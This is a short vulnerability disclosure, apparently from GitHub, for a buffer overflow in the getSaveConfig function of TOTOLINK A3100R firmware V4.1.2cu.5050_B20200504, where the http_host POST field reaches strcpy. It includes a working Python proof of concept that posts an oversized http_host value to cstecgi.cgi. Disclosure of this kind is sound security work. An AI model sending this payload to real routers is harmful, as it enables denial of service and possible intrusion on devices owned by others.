 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html

## Affected version

A3100R V4.1.2cu.5050_B20200504

## Vulnerability details

In the A3100R V4.1.2cu.5050_B20200504 firmware has a buffer overflow vulnerability in the `getSaveConfig` function. The `v6` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy((char *)v13, v6);` can cause a buffer overflow injection vulnerability.

![image-20240719230945874](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230945874.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi?action=save&setting"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719231229911](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719231229911.png)
